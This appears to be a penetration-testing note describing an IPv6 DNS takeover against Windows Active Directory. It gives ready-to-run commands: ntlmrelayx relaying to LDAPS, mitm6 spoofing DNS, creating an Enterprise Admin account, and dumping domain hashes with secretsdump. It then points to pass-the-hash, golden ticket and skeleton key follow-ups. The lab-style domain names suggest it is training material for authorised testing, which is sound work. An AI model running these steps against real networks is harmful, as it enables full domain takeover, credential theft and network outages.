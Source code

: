 By default IPv4 and IPv6 are enabled on a network but only IPv4 is used and has a DNS Service.
An attacker can spoof being an IPv6 DNS provider, allowing authentication to the Domain Controller via LDAP or SMB.

***THIS ATTACK CAN CAUSE NETWORK OUTAGES. ONLY PERFORM 5-10mins AT A TIME.***
# How to do it
## Step 1:
Start ntlmrelayx.
```bash
ntlmrelayx.py -6 -t ldaps://$(IP_ADDRESS) -wh [FAKE WPAD NAME HERE] -l [FOLDERNAME]
```
Example:
```bash
ntlmrelayx.py -6 -t ldaps://192.168.138.136 -wh fakewpad.marvel.local -l lootme
```
## Step 2:
Start mitm6.
```bash
sudo mitm6 -d $(DOMAIN)
```
Example:
```bash
sudo mitm6 -d marvel.local
```
## Step 3:
Go through the folder created by ntlmrelayx (e.g. lootme). Pay attention to users, descriptions and OS versions. If an account has barely ever/never been loggerd into, it could be a honeypot.
## Step 4:
Once events are triggered (e.g. a reboot), a user should be created on the DC with Enterprise Admin rights.
This user can be used with secretsdump.py to compromise the domain.
```bash
secretsdump.py $(DOMAIN)/$(USERNAME):'$(PASSWORD)'$(DC_IP_ADDRESS)
```
Example:
```bash
secretsdump.py juggernaut.local/miUBjARusF:'4HVsO.XO^S,:OuI'@172.16.1.5
```
Now that we have the domain admins hash, we could perform a pass-the-hash attack to get a foothold onto the DC and virtually do anything we want, such as: over-pass-the-hash, create a golden ticket, create a skeleton key, etc.
